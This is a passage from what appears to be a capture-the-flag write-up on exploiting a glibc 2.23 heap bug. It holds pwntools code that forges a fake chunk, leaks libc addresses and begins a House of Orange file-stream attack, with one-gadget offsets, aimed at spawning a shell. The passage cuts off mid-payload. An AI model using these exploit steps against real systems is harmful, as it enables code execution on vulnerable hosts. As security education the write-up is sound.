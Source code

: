 ```python
payload += p64(0) + p64(0x91)
payload += b"\x00" * 0x88
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x21)
assert(len(payload) <= 256)
change(payload)

# fake chunk is now freed into the unsorted bin
delete(6)
```
The lower 16 bytes to the fake chunk will now contain two 8 byte pointers to the glibc.
Leaking those pointers is simple.
```python
# send 15 'A's and a newline
data = b"A" * 15
change(data)
io.recvuntil(b"A\n")
leak = io.recv(6)
leak = u64(leak + b"\x00\x00")
print(f"[+] leak: 0x{leak:x}")
base = leak - 0x3c4b78
print(f"[+] base: 0x{base:x}")
```
Now we have the glibc base, time to actually exploit this program.

## Pwn Time
The first thing I thought of was trying to do a tcache attack, until I remembered that this version of the glibc does not have a tcache.

After doing a bit of research I found an attack that works by overwriting `__malloc_hook` using the same fastbin trick to get a chunk that overlaps with that pointer and then overwriting it with a one gadget. But that attack requires being able to allocate chunks of size `0x70`, and we are capped at `0x58`.

There is another attack to overwriting the `_IO_read_end` field in the glibc stdin FILE structure, but that attack requires the program to use scanf so that will not work either.

Finally found an exploit called the [House of Orange](https://github.com/shellphish/how2heap/blob/master/glibc_2.23/house_of_orange.c) attack. This exploit takes advantage of a few things:
- unchecked write in `malloc`
- `malloc_printerr` calls `_IO_flush_all_lockp`, which allows for an FSOP attack

The attack performs the following steps:
- get a chunk with size 0x60 into the unsorted bin
- create a fake FILE structure in that same chunk
- overwrite the chunk's bk pointer to `_IO_list_all` - 0x10
- malloc a chunk of size smaller than 0x60
- pop a shell

```python
# calculate the address of _IO_list_all using the glibc leak
victim = base + 0x3c5520 - 0x10
print(f"[+] victim: 0x{victim:x}")

if args.SYSTEM:
    shell = base + 0x45390
else:
    shell = base + 0xf1147
print(f"[+] shell: 0x{shell:x}")

# setup the fake chunk
size = 0x60
payload =  b""
payload += b"/bin/sh\x00" + p64(size | 1)     # <- set the size to 0x61
```